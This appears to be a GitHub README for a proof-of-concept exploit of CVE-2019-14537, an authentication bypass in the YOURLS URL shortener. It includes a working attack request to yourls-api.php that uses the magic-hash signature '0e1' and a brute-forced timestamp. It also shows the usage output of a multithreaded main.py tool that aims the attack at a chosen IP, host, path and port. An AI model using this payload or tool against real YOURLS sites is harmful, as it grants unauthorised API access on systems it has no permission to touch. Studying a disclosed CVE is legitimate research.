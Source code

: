 # YOURLS: CVE-2019-14537 PoC

![alt text](https://raw.githubusercontent.com/Wocanilo/CVE-2019-14537/master/poc_preview.png)

When you get a valid timestamp you will be able to make requests to the api. 

http://domain.com/yourls-api.php?signature=0e1&action=db-stats&timestamp=VALID_TIMESTAMP

## Usage

```
usage: main.py [-h] [--vhost VHOST] [--threads THREADS] [--path PATH]
               [--port PORT]
               [ip]

CVE-2019-14537 PoC

positional arguments:
  ip                 Yourls IP

optional arguments:
  -h, --help         show this help message and exit
  --vhost VHOST      host name (domain name)
  --threads THREADS  number of threads (default: 10)
  --path PATH        yourls-api.php path (default: /yourls-api.php)
  --port PORT        port (default: 80)
```

